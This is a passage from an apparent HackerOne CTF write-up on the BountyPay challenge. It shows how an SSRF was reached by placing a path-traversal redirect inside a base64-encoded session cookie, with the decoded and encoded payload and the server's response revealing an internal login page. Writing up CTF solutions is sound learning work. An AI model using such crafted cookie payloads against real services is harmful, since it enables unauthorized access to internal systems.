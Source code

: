 Going to https://api.bountypay.h1ctf.com/ found 

```html
<div class="container">
    <div class="row">
        <div class="col-sm-6 col-sm-offset-3">
            <div class="text-center" style="margin-top:30px"><img src="/images/bountypay.png" height="150"></div>
            <h1 class="text-center">BountyPay API</h1>
            <p style="text-align: justify">Our BountyPay API controls all of our services in one place. We use a <a href="/redirect?url=https://www.google.com/search?q=REST+API">REST API</a> with JSON output. If you are interested in using this API please contact your account manager.</p>
        </div>
    </div>
</div>
```

This url https://api.bountypay.h1ctf.com/redirect?url= has a whitelist and cannot "redirect" to any site so i had to move on a little.
On the other side, the url https://software.bountypay.h1ctf.com/ shows an 401 Unauthorized message.

{F858176}

The message "You do not have permission to access this server from your IP Address" is the hint to test this url in redirect.

Testing redirect with software url https://api.bountypay.h1ctf.com/redirect?url=https://software.bountypay.h1ctf.com/ from cookie like this:
```bash
decoded:
{"account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/#","hash":"de235bffd23df6995ad4e0930baac1a2"}

base64-encoded:
eyJhY2NvdW50X2lkIjoiLi4vLi4vcmVkaXJlY3Q/dXJsPWh0dHBzOi8vc29mdHdhcmUuYm91bnR5cGF5LmgxY3RmLmNvbS8jIiwiaGFzaCI6ImRlMjM1YmZmZDIzZGY2OTk1YWQ0ZTA5MzBiYWFjMWEyIn0=
```
Response 
```html
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 07 Jun 2020 15:10:37 GMT
Content-Type: application/json
Connection: close
Content-Length: 1605

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/#\/statements?month=04&year=2020","data":"<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>Software Storage<\/title>\n    <link href=\"\/css\/bootstrap.min.css\" rel=\"stylesheet\">\n<\/head>\n<body>\n\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <h1 style=\"text-align: center\">Software Storage<\/h1>\n            <form method=\"post\" action=\"\/\">\n                <div class=\"panel panel-default\" style=\"margin-top:50px\">\n                    <div class=\"panel-heading\">Login<\/div>\n                    <div class=\"panel-body\">\n                        <div style=\"margin-top:7px\"><label>Username:<\/label><\/div>\n                        <div><input name=\"username\" class=\"form-control\"><\/div>\n                        <div style=\"margin-top:7px\"><label>Password:<\/label><\/div>\n                        <div><input name=\"password\" type=\"password\" class=\"form-control\"><\/div>\n                    <\/div>\n                <\/div>\n                <input type=\"submit\" class=\"btn btn-success pull-right\" value=\"Login\">\n            <\/form>\n        <\/div>\n    <\/div>\n<\/div>\n<script src=\"\/js\/jquery.min.js\"><\/script>\n<script src=\"\/js\/bootstrap.min.js\"><\/script>\n<\/body>\n<\/html>"}
```
Got SSRF!
